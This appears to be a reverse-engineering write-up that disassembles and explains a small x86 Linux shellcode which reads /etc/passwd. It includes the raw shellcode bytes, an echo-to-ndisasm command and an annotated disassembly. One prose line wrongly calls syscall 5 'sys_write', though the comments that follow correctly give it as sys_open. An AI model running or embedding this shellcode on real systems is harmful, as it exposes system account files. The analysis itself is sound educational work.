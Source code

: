 ## Shellcode analysis case 1

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

` echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -` convert the shellcode to x86 ASM via ndisasm
```
Disassembly-
00000000  31C9              xor ecx,ecx
00000002  F7E1              mul ecx
00000004  B005              mov al,0x5
00000006  51                push ecx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  CD80              int 0x80
0000001A  93                xchg eax,ebx
0000001B  91                xchg eax,ecx
0000001C  B003              mov al,0x3
0000001E  31D2              xor edx,edx
00000020  66BAFF0F          mov dx,0xfff
00000024  42                inc edx
00000025  CD80              int 0x80
00000027  92                xchg eax,edx
00000028  31C0              xor eax,eax
0000002A  B004              mov al,0x4
0000002C  B301              mov bl,0x1
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  CD80              int 0x80
```

Analysis:

As usual, the shellcode starts by clearing out the ecx register, then it moves the linux `sys_write` syscall into the al register. Then the shellcode pushes the string `//etc/passwd` onto the stack in little endian format and split up.

```assembly
xor    ecx,ecx        ; clear out ecx as prep
mul    ecx            ; 
mov    al,0x5         ; linux syscall (sys_open, 0x05)
push   ecx
push   0x64777373     ; push 'dwss' to the stack
push   0x61702f63     ; push 'ap/c' to the stack
push   0x74652f2f     ; push 'te//' to the stack
mov    ebx,esp
int    0x80           ; sys interupt
```

